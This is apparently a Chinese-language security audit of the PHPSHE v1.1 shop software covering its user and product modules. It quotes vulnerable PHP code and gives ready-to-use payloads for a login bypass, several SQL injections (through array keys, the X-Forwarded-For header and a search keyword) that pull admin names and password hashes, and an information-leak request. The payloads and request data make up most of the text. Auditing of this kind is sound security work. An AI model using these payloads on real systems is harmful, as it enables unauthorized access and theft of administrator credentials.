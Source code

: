 ## **PHPSHE V1.1 （三）**

### **user.php**
接下來，我們來看看`user`模塊。

```php
//Line:10

case 'login':
    if (isset($_p_pesubmit)) {
        $_p_info['user_pw'] = md5($_p_info['user_pw']);
        if ($info = $db->pe_select('user', $_p_info)) {
```

亮點在這裡`if ($info = $db->pe_select('user', $_p_info)) {`，只要$info不為空就成功登入了。
<p>
簡單來一發萬能密碼,用戶名：`' or 1=1-- -`，密碼隨意就ok了


### **【Bug 0x09: SQL注入 任意用戶登入】**

URL:

<pre>
/index.php?mod=user&act=login
</pre>

DATA:
<pre>
info%5Buser_name%5D=1' or 1=1-- -
&info%5Buser_pw%5D=123456
&pesubmit=
</pre>

繼續看
```php
//Line:168

case 'base':
    if (isset($_p_pesubmit)) {
        if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {
            pe_success('基本訊息修改成功！');
        }
        else {
            pe_error('基本訊息修改失敗...');
        }
    }
    $info = $db->pe_select('user', array('user_id'=>$_s_user_id));

    $seo = pe_seo($menutitle='基本訊息');
    include(pe_tpl('user_base.html'));
```

亮點在`if ($db->pe_update('user', array('user_id'=>$_s_user_id), pe_dbhold($_p_info))) {`。
<p>
我們跟進`pe_dbhold()`函數

```php
//Line:30

//資料庫安全
function pe_dbhold($str, $exc=array())
{
    if (is_array($str)) {
        foreach($str as $k => $v) {
            $str[$k] = in_array($k, $exc) ? pe_dbhold($v, 'all') : pe_dbhold($v);
        }
    }
    else {
        $str = $exc == 'all' ? mysql_real_escape_string($str) : mysql_real_escape_string(htmlspecialchars($str));
    }
    return $str;
}
```

此處對陣列的值進行了過濾，但是對陣列的鍵沒有處理。
<br >
我們跟進`pe_update()`函數


```php
public function pe_update($table, $where, $set)
{
    //處理設置語句
    $sqlset = $this->_doset($set);
    //處理條件語句
    $sqlwhere = $this->_dowhere($where);
    return $this->sql_update("update `".dbpre."{$table}` {$sqlset} {$sqlwhere}");    
}
```

### **【Bug 0x06】** 一樣，經過`_dowhere()`處理、一樣可以對其進行注入。

```【Bug 0x09: SQL注入 獲取任意資料庫數據】```
<p>
URL:
<pre>
/index.php?mod=user&act=base
</pre>

<p>
DATA:
<pre>
info%5Buser_address`%3D(select concat(0x7e,admin_name,0x7e,admin_pw,0x7e) from pe_admin limit 1) , `user_tname%5D=1
</pre>


**product.php**
第一個操作**商品諮詢**就可能存在一個小BUG。

```php
//Line:5

case 'askadd':
    if (isset($_p_pesubmit)) {
        ...
        $info['ask_text'] = pe_texthtml(pe_dbhold($_p_ask_text));
        ...
        $info['user_ip'] = pe_ip();
        if ($db->pe_insert('ask', $info)) {
            ...
            $info['ask_text'] = htmlspecialchars($_p_ask_text);
```


## **【Bug 0x10: 訊息洩漏 Warning】**
POST:
<p>
```/index.php?mod=product&act=askadd&id=1```
<br>
DATA:
<p>
```ask_text[]=asfasdfasfs&pesubmit=true```
<br>

錯誤訊息
```
Warning: nl2br() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\include\function\global.func.php
Warning: htmlspecialchars() expects parameter 1 to be string, array given in E:\SourceCodes\phpshe1.1\module\index\product.php
```

然後還有一個亮點`$info['user_ip'] = pe_ip();`，我們跟進`pe_ip()`函數

```php
//Line : 333

//獲取IP
function pe_ip()
{
    if (isset($_SERVER)){
        if (isset($_SERVER["HTTP_X_FORWARDED_FOR"])){
            $realip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    ...
    return $realip;
```

明顯的XFF注入。只要在寫入資料庫的時候用到了這個函數獲取IP的地方、、都是一樣的注入。

### **【Bug 0x11: SQL注入 獲取任意資料庫數據】**
POST:
<br>
<pre>/index.php?mod=product&act=askadd&id=1</pre>
<p>
x-forwarded-for:
<pre>
```1', `ask_replytext` = (select concat(0x7e,admin_name,0x7e,admin_pw,0x7e)  from pe_admin limit 1)#
</pre>
返回的訊息在商品、賣家回覆裡。
<br >
再往下看，在`商品列表`操作中、又是一個大大的BUG出現了。

```php
//Line:83

case 'list':
    ...
    $_g_keyword && $sqlwhere .= " and `product_name` like '%{$_g_keyword}%'";
    ...
    $info_list = $db->pe_selectall('product', $sqlwhere, '*', array(16, $_g_page));
```

WHERE條件帶入了未經過濾的`$_g_keyword`變數。
<br>
### **【Bug 0x12: SQL注入 獲取任意資料庫數據】**
URL:
```php
/index.php?mod=product&act=list&id=1&keyword=%' union select 1,admin_pw,1,1,1,admin_name,1,1,1,1,1,1,1,1,1,1,1,1,1 from pe_admin-- -
```